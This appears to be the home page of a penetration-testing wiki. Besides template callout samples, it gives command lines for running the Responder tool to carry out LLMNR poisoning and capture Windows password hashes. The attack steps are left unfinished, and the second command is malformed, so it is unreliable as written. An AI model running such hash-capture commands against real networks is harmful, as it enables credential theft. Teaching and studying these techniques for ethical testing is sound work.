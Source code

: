 **Please note**
> [!IMPORTANT]
> This is a public wiki.
---

> [!NOTE]
> Useful information that users should know, even when skimming content.

> [!TIP]
> Helpful advice for doing things better or more easily.

> [!IMPORTANT]
> Key information users need to know to achieve their goal.

> [!WARNING]
> Urgent info that needs immediate user attention to avoid problems.

> [!CAUTION]
> Advises about risks or negative outcomes of certain actions.


<a id="readme-top"></a>


<a id="readme-top"></a>

---
# Wiki Home
> [!NOTE]
> This Wiki covers a range of technical topics
>
> `Penetration Testing` `Windows Active Directory` `PowerShell`
>
> Code is available from the code repo https://github.com/asktechsupport/help

# Penetration Testing Wiki
## 5 stages of ethical hacking - diagram
![image](https://github.com/user-attachments/assets/1d12b895-29e8-475c-bce1-2ce10e282ff1)

### Active Directory Vulnerabilities
#### LLMNR Poisoning - How to attack

Step1️⃣ Run Responder
```
python /usr/share/responder/Responder.py -I tun0 -rdw -v
```
```
sudo -I responder -| tun0 -dwP
```
<details><summary>Step 2️⃣</summary></details>

<details><summary>Step 3️⃣A hash will come through, like the screenshot:  </summary></details>
